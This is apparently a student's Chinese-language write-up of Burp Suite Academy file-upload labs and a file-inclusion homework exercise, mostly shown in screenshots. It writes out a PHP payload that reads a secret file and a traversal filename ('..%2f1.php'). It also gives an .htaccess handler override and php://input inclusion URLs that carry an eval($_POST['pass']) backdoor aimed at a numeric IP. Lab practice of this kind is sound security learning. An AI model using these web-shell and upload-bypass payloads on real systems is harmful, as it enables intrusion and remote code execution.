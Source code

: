 # burp实验室

### 文件上传1

![image-20250908181037967](images/image-20250908181037967.png)

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

![image-20250908181236252](images/image-20250908181236252.png)

![image-20250908181352634](images/image-20250908181352634.png)

![image-20250908181422203](images/image-20250908181422203.png)





## 第二关

![image-20250908181712954](images/image-20250908181712954.png)

#### 改了content-type，重放

![image-20250908181911381](images/image-20250908181911381.png)

![image-20250908182038825](images/image-20250908182038825.png)



### 第三关

![image-20250908183512876](images/image-20250908183512876.png)

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

模仿前面发现，可以正常上传，但是无法执行语句，访问发现被原封不动的返回了

![image-20250908183552405](images/image-20250908183552405.png)

尝试能否跳出目录，去上一级

```
filename="..%2f1.php"
```

![image-20250908183823015](images/image-20250908183823015.png)

上级目录访问成功

![image-20250908185100736](images/image-20250908185100736.png)





### 第四关

![image-20250908185633161](images/image-20250908185633161.png)

直接试试php的其他后缀

![image-20250908185714838](images/image-20250908185714838.png)

没有被正确的解析

![image-20250908185955249](images/image-20250908185955249.png)



```
上传  .htaccess
内容为
AddType application/x-httpd-php .php5
修改Content-Type:text/plain
```

![image-20250908190333202](images/image-20250908190333202.png)

重新访问test.php5,得到key

![image-20250908190836906](images/image-20250908190836906.png)



## 第五关  通过混淆的文件扩展名上传 Web shell

![image-20250908191001257](images/image-20250908191001257.png)

![image-20250908191420918](images/image-20250908191420918.png)

#### 尝试双后缀，被识别成了图片。。。。

![image-20250908191509141](images/image-20250908191509141.png)

#### 尝试空格阻断

![image-20250908191649952](images/image-20250908191649952.png)

访问

```
/files/avatars/test1.php
```

![image-20250908191811865](images/image-20250908191811865.png)



### 第六关 通过多语言 Web Shell 上传执行远程代码

![image-20250908191916598](images/image-20250908191916598.png)

#### 看着标题就知道会检查16进制的头，我们制作一个优秀的图片马

![image-20250908192708861](images/image-20250908192708861.png)

改一下后缀

![image-20250908192831555](images/image-20250908192831555.png)

得到了

![image-20250908194213957](images/image-20250908194213957.png)

### 第七关 通过竞争条件上传 Web shell

![image-20250908194321213](images/image-20250908194321213.png)

依旧优质图片码，爆破上传

![image-20250908195355478](images/image-20250908195355478.png)

在服务器没反应过来拿下

![image-20250908195328865](images/image-20250908195328865.png)



# 作业2  做不出来

```
http://47.242.11.182:8080/vul/fileinclude/fi_local.php?filename=php://input<?php @eval($_POST['pass']);?>&submit=%E6%8F%90%E4%BA%A4


<?php phpinfo();?>


http://47.242.11.182:8080/vul/fileinclude/fi_local.php?filename=php://input<?php phpinfo();?>
```

![image-20250908201043625](images/image-20250908201043625.png)







# 作业三

![image-20250908220316923](images/image-20250908220316923.png)

一个西红柿？

![image-20250908220425068](images/image-20250908220425068.png)



目录爆破

![image-20250908231635841](images/image-20250908231635841.png)